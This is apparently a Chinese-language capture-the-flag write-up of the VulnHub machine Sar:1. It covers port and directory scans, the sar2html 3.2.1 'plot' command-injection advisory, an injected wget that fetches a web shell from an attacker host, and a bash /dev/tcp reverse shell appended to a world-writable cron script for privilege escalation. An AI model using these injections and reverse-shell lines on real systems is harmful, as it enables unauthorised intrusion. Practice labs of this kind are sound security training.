






# Sar：1

> https://download.vulnhub.com/sar/sar.zip

靶场IP：`192.168.32.213`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.213
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 02:01 EDT
Nmap scan report for 192.168.32.213
Host is up (0.00068s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:78:62:14 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds
                                                              
```

访问80端口



爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.213/                                                                                                                                                                                                        127 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  8 02:27:20 2022
URL_BASE: http://192.168.32.213/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.213/ ----
+ http://192.168.32.213/index.html (CODE:200|SIZE:10918)                                                                                                                                                                                    
+ http://192.168.32.213/phpinfo.php (CODE:200|SIZE:95497)                                                                                                                                                                                   
+ http://192.168.32.213/robots.txt (CODE:200|SIZE:9)                                                                                                                                                                                        
+ http://192.168.32.213/server-status (CODE:403|SIZE:279)                                                                                                                                                                                   
                                                                                                                                                                                                                                            
-----------------
END_TIME: Thu Sep  8 02:27:25 2022
DOWNLOADED: 4612 - FOUND: 4

```

访问`/robots.txt`，找到一个目录`sar2HTML`



访问`/sar2HTML`



搜索漏洞

```
┌──(root💀kali)-[/tmp]
└─# searchsploit sar2HTML                                                                                                
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                                                                              | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                                                                  | php/webapps/47204.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

查看漏洞信息

```
┌──(root💀kali)-[/tmp]
└─# searchsploit -m php/webapps/47204.txt
  Exploit: Sar2HTML 3.2.1 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/47204
     Path: /usr/share/exploitdb/exploits/php/webapps/47204.txt
File Type: ASCII text

Copied to: /tmp/47204.txt


                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# cat /tmp/47204.txt

# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.    
```

按照文档提示成功执行命令



下载webshell

```
http://192.168.32.213/sar2HTML//index.php?plot=;wget%20http://192.168.32.130/shell.php
```

连接成功



使用`LinEnum.sh`查看靶场可利用的点。找到计划任务



查看计划任务的脚本

```
www-data@sar:/tmp$ cd /var/www/html
cd /var/www/html
www-data@sar:/var/www/html$ ks
ks
ks: command not found
www-data@sar:/var/www/html$ ls
ls
finally.sh  index.html  phpinfo.php  robots.txt  sar2HTML  write.sh
www-data@sar:/var/www/html$ ls -al
ls -al
total 40
drwxr-xr-x 3 www-data www-data  4096 Oct 21  2019 .
drwxr-xr-x 4 www-data www-data  4096 Oct 21  2019 ..
-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
drwxr-xr-x 4 www-data www-data  4096 Sep  8 12:15 sar2HTML
-rwxrwxrwx 1 www-data www-data    30 Oct 21  2019 write.sh
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
www-data@sar:/var/www/html$ cat write.sh
cat write.sh
#!/bin/sh

touch /tmp/gateway

```

写入反弹shell

```
echo 'bash -i >& /dev/tcp/192.168.32.130/9999 0>&1' >> write.sh
```

等待五分钟执行计划任务就可以看到反弹成功。

